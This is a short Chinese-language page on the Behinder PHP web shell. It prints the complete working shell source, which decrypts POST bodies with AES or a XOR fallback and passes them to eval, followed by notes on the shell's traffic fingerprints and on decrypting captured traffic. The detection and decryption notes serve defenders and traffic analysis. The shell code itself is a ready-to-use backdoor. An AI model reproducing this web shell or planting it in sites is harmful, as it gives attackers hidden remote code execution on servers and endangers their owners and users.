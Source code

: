 #### 基础代码

```php
# behinder.php，密码pass

<?php
@error_reporting(0);
session_start();
if (isset($_GET['pass']))
{
    $key=substr(md5(uniqid(rand())),16);
    $_SESSION['k']=$key;
    print $key;
}
else
{
    $key=$_SESSION['k'];
  $post=file_get_contents("php://input");
  if(!extension_loaded('openssl'))
  {
    $t="base64_"."decode";
    $post=$t($post."");
    
    for($i=0;$i<strlen($post);$i++) {
           $post[$i] = $post[$i]^$key[$i+1&15]; 
          }
  }
  else
  {
    $post=openssl_decrypt($post, "AES128", $key);
  }
    $arr=explode('|',$post);
    $func=$arr[0];
    $params=$arr[1];
  class C{public function __construct($p) {eval($p."");}}
  @new C($params);
}
?>
```

#### 流量特征

- 密文传输。
- Response响应包的Content Length为16。

#### 流量解密

AES加密，参考工具：https://oktools.net/aes

- Response响应包的content length为16的字符串为key，例如`93edbafac50eb64c`。
- 模式：CBC，填充：Pkcs7。
